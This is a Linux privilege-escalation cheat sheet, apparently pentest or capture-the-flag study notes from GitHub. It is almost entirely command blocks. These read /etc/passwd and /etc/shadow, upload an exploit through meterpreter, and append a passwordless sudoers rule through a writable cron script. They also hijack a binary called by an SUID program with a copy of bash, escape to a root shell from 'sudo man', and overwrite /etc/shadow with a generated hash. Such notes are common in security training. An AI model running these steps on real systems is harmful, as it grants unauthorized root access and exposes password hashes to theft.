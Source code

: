 # Linux Privilege Escalation

--------------------------------------------------------------------

## kernel Exploits: (Dangerous)

```
Linux-exploit-suggester (Github Tool) 

$ cat /etc/passwd

search the vulnerability, download it and do what it indicates

upload the binary to the victim machine

meterpreter> upload /Downloads/script.c

we can login from ssh

$ cat /etc/shadow
```

--------------------------------------------------------------------

## Exploiting Cron Jobs:

```
$ crontab -l

$ cd/ 

$ grep -rnw /usr -e “/home/student/message” (to see if something is useing that path)

If we noticed that there is a .sh script that uses it so we are going to try to set commands on it

If we dont have any txt editor:
$ printf ‘#!/bin/bash\necho “student ALL=NOPASSWD:ALL” >> /etc/sudoers’ > /usr/local/share/copy.sh
```

--------------------------------------------------------------------

## SUID binaries:

```
$ file welcome
$ strings welcome

As the program calls other binary we remove it and create other one as a copy of a /bin/bash

$ rm greetings

$ cp /bin/bash greetings

$ ./welcome (we get a root command)
```

--------------------------------------------------------------------


## SETUID - SUDO privileges

> https://gtfobins.github.io/

```
$ find / -user root -perm -4000 -exec ls -ldb {} \;

$ find / -perm -u=s -type f 2>/dev/null

$ sudo -l
```

--------------------------------------------------------------------

## e.g. User can run 'man' with SUDO Privileges

```
$ sudo man ls

$ !/bin/bash
```

--------------------------------------------------------------------

## e.g. of /etc/shadow with write permissions

```
$ openssl passwd -1 -salt abc password123

$ vim /etc/shadow # Paste the hashed password

$ su
```

--------------------------------------------------------------------

## Writable files

```
$ find / -not -type l -perm -o+w
```

--------------------------------------------------------------------